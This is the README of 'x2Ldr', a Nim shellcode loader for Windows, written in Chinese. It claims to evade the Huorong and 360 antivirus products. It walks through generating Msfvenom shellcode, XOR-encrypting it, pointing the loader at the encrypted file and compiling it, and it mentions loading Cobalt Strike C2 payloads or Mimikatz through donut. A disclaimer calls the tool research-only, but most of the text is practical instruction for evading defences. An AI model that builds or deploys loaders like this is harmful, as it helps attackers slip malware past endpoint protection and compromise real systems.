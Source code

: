 > 免责声明：本项目涉及的技术仅供安全学习与研究防御用途，使用请遵守当地法律！

# x2Ldr
2023年12月15日 新增一个无需分离 nim 实现的加载方式 - x2Ldr-Puls

免杀效果：火绒、360（未开核晶）均联网

读入 Msfvenom 或 Cobalt Strike 等 C2 的 Shellcode 方式分离免杀

或者配合 donut 可以将 exe、dll 转为 Shellcode 载入 MimiKatz 等工具

# 使用方法
在 windows 配置 nim 环境。
官网下载 https://nim-lang.org/install_windows.html

https://nim-lang.org/download/nim-2.0.0_x64.zip

msfvenom 生成 shellcode

```
msfvenom -a x64 -p windows/x64/exec CMD=calc -f raw -o calc_x64.bin
```

xor 加密 msfvenom 生成的 raw 格式 shellcode

```sh
> python .\xorencrypt.py .\calc_x64.bin
> xor encrypted : .\calc_encrypted.bin
```

将加密后的文件名作为参数传递给 nim 文件中的 fopen 参数

```cpp
	//修改这里
	char key[] = "key";

	//修改这里
	fp = fopen("user.dat", "rb");
```

编译

```
nim c -d=mingw --app=gui --cpu=amd64 -d:release --opt:size --passL:-static .\x2Ldr.nim
```



# 效果

![image-20231212214131373](img/image1.png)

![image-20231212214155866](img/image2.png)

## huorong

![image-20231212204157772](img/image3.png)

## 360

![image-20231212213425036](img/image4.png)

![image-20231212213449828](img/image5.png)
